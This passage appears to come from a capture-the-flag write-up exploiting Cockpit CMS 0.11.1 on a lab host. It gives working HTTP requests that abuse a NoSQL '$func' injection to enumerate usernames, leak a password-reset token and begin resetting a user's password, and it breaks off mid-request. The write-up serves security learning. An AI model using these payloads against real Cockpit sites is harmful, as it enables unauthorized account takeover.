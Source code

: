 By reading the file `cockpit/composer.json` we noticed the cockpit version `0.11.1` was installed and was vulnerable to NoSQL injections.

After reading the interesting blog post [https://swarm.ptsecurity.com/rce-cockpit-cms/](https://swarm.ptsecurity.com/rce-cockpit-cms/), we started exploiting the NoSQL vulnerabilities:

1. We listed all the registered users by injecting the predicate `$func` that calls the PHP function `var_dump` for each username:

    ```burp
    POST /cockpit/auth/check HTTP/1.1
    Host: 10.129.1.2
    [...]
    
    {"auth":{"user":{
    "$func": "var_dump"
    },"password":"b"},"csfr":"eyJ[...]Jc"}
    
    HTTP/1.0 200 OK
    [...]
    
    string(7) "ricardo"
    string(5) "laura"
    string(6) "steven"
    {"success":false,"error":"User not found"}
    ```

2. We requested a password reset for `steven`:
    
    ```burp
    POST /cockpit/auth/requestreset HTTP/1.1
    Host: 10.129.1.2
    [...]
    
    {"user":"steven"}
    ```

3. We leaked the reset token of the previous password reset request:

    ```burp
    POST /cockpit/auth/resetpassword HTTP/1.1
    Host: 10.129.1.2
    [...]
    
    {"token":{
    "$func":"var_dump"
    }}
    
    
    HTTP/1.0 200 OK
    [...]
    
    string(48) "rp-550435cc8b0dc5e3b23db080c64895d160ff4d28109de"
    [...]]
    ```

4. We changed its password:
    
    ```burp
    POST /cockpit/auth/resetpassword HTTP/1.1
    Host: 10.129.1.2
    [...]
    